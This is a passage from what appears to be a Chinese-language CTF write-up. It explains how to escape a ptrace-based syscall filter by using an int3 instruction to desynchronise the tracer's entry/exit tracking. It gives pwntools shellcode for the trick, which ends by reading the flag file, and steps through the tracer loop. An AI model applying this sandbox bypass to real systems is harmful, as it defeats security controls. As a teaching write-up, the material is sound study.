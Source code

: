 ```c
}
```

如果我们的系统调用被父进程捕获是发送在下方的SYSCALL，会发生什么呢？我们的系统调用将不会被ptrace的tracer过滤，可以任意执行。这就是我们所需要的。这里给出exp

```python
# First 10 bytes of shellcode, used only to load the rest of the shellcode
shellcode = asm('''
push 1000
pop rdx
xor eax, eax
syscall
''', arch='amd64')

# Some nops to be sure there is no SIGSEV
# Invoke int3 to invert the main tracer loop
shellcode += asm('''
nop
nop
nop
nop
nop
nop
nop
mov rax, 8
int3
''', arch='amd64')

# And now just read the flag file :)
shellcode += asm(shellcraft.amd64.cat('flag'), arch='amd64')
```

该exp对应上述的捕获流程：

+ 第一次while：open开始信号发出，正常的被tracer捕获，tracee暂停，由tracer进行check，然后open结束信号发出被捕获，tracee继续运行
+ 第二次while：int 3信号被发出，这里注意一点，int 3信号不像其他系统调用，会有两次信号发出（开始和结束），它只会发出一次信号。（为什么只发出一次呢，个人猜测是因为它属于中断，结束的时候需要恢复上下文，这就表明eax之类的寄存器值都是调用前的值，程序没变过，所以不会被捕获到int 3结束）
+ 接上面第二次while：那么这时候，因为只有一次信号被捕获，所以程序流就执行了while的SYSCALL
+ 后续就执行cat flag，因为此时是从下方的SYSCALL执行的，不会有check，shellcode安全执行
+ 第三次while：这里的while就只执行了最开始的那一次SYSCALL，对应于open的结束信号。

真是magic的做法呢！

